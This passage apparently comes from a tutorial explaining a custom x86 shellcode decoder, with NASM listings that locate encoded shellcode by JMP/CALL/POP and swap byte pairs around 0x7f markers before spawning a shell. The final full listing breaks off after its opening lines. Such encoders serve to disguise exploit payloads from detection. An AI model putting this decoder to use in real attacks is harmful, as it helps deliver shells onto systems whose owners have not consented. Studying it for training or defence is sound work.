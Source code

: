<i>NOTE: If by chance the shellcode is done and the next insert byte check happens to run into a \x7f that is not part of the shellcode it would continue to swap bytes. Low chance, but it could happen. That said, it would not stop the shell from spawning on us and would only matter if the shellcode was back-to-back with additional instructions we needed to execute after the shell was spawned.</i>

### Setting up registers and initial values
The first part of our shellcode will save a pointer to the first byte of our encoded shellcode.  Since we are performing a JMP/CALL/POP we'll be able to POP the memory location of the array of bytes we'll be working with without having to know it's address beforehand.

EAX/EBX/ECX/EDX are all zeroed out as they will be used for swapping each pair of bytes and for tracking the offset where bytes are to be swapped into next.
```nasm
decoder:
	pop esi			; save location of encoded shellcode
	xor ebx,ebx		; zero out ebx - used for swapping
	xor ecx,ecx		; zero out ecx - insert byte tracking
	mul ecx			; zero out EAX/EDX - used for swapping
	mov edi,esi		; save encoded shellcode location into edi
	mov cl,2		; location of next expected insert byte
```

### Decode loop
Now we are in the decoding loop where we'll continue to swap bytes and overshift 0x7f bytes. Our first check will be to determine whether we have a 0x7f byte in the next predetermined location indicating we should perform another swap.  If we don't see it there we'll conclude that we are done swapping and we should exit the loop.
```nasm
cmp byte [esi+ecx], 0x7f	; should another swap occur?
jne done					; jump out of loop
```

Next, we perform a swap.  We can't swap the bytes between memory locations so we save each byte to a register and then save the register value back to opposite memory locations for perform the swap.  ECX is tracking the location further ahead where the 0x7f byte is at and the two bytes to swap will always be the two bytes behind it.
```nasm
mov al, [esi+ecx-2]			; save first byte in pair
mov bl, [esi+ecx-1]			; save second byte in pair
mov [edi], bl				; swap byte
mov [edi+1], al				; swap byte
```

Finally, we adjust the offset of where the next 0x7f byte is expected and udpate the memory offset of where we would swap the bytes to.  We then jump to the beginning of the loop where we test for the existence of the expected 0x7f byte.
```nasm
add ecx, 3				; the next 0x7f byte should be 3 bytes ahead
add edi, 2				; memory offset for next swap save
jmp short decode			; jump back to the beginning of the loop
```

### Completed decoder in x86 assembly
```nasm
global _start			

section .text
_start:
	jmp short call_shellcode

decoder:
	pop esi				; save location of encoded shellcode
	xor ebx,ebx			; zero out ebx - used for swapping
	xor ecx,ecx			; zero out ecx - insert byte tracking
	mul ecx				; zero out EAX/EDX - used for swapping
	mov edi,esi			; save encoded shellcode location into edi
```